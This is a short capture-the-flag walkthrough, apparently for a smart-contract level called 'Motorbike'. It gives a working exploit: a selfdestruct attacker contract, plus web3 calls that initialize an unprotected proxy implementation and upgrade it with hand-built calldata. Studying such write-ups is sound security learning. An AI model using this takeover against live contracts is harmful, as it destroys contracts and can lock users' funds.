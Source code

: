 ## Motorbike
Here, our goal is to selfdestruct the engine of the motorbike. The motorbike contract uses delegatecall, and has called the `initialize()` function of the implementation in constructor. But, the implementation has not been initialized. So, as an attacker, we can initialize the implementation and upgrade it to an attacker contract. Then, as it delegatecalls, we are able to selfdestruct the contract.

First, deploy the attacker contract:
```solidity
contract attack {
    fallback() external {
        selfdestruct(tx.origin);
    }
}
```

Then, in js:
```js
// Read the implementation address
web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
// Call initialize on implementation contract
web3.eth.sendTransaction({from: "YOUR_WALLET_ADDRESS", to: "THE_IMPLEMENTATION_ADDRESS", data: "0x8129fc1c"});
// Then we are the upgrader of the implementation 
// it can be verified with:
web3.eth.getStorageAt("0x6f3b8e311e53312295c79ccd6cf90bfeca9b561f", "0");
// Now, call upgradeToAndCall with our attacker contract as argument, and a data length > 0
// Our calldata will be:
//0x4f1ef286       --> The function selector
//000000000000000000000000ATTACKER_CONTRACT_ADDRESS       --> The new implementation (replace with your attacker contract)
//0000000000000000000000000000000000000000000000000000000000000040   --> Index at which `data` starts
//0000000000000000000000000000000000000000000000000000000000000003   --> size of data
// aabbcc   --> Data (not necessary)
web3.eth.sendTransaction({from: "YOUR_WALLET_ADDRESS", to: "THE_IMPLEMENTATION_ADDRESS", data: "0x4f1ef286000000000000000000000000ATTACKER_CONTRACT_ADDRESS00000000000000000000000000000000000000000000000000000000000000400000000000000000000000000000000000000000000000000000000000000003aabbcc"});
// The implementation contract is now selfdestructed !!!
```


## Others

Read a smart contract storage :
```
web3.eth.getStorageAt("0x7148b422bCB483FC00057F088e8E6fDA9e7F1Fb5", 0)
```



